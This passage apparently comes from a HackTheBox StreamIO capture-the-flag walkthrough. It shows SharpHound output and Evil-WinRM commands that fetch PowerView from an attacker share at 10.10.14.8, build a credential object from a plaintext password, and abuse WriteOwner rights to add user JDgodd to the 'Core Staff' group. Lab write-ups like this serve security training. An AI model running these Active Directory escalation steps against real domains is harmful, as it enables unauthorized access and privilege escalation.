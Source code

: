 ```
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-09-11T06:56:13.1687674-07:00|INFORMATION|SharpHound Enumeration Completed at 6:56 AM on 9/11/2024! Happy Graphing!
```

![](StreamIO_BloodHound.png)

###### `Importing Powerview.ps1`
```
*Evil-WinRM* PS C:\ProgramData> copy \\10.10.14.8\share\powerview.ps1 .
*Evil-WinRM* PS C:\ProgramData> Import-Module .\powerview.ps1
```

###### `Setting up Credential Object $Cred for user JDgodd`
```
*Evil-WinRM* PS C:\ProgramData> $pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\ProgramData> $user = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
```

###### `Adding user to the Group when the user has WriteOwner Permission`
```
*Evil-WinRM* PS C:\ProgramData> Add-DomainObjectAcl -Credential $user -TargetIdentity "Core Staff" -PrincipalIdentity "streamio.htb\JDgodd"
*Evil-WinRM* PS C:\ProgramData> Add-DomainGroupMember -Credential $user -Identity "Core Staff" -Member "streamio.htb\JDgodd"
```
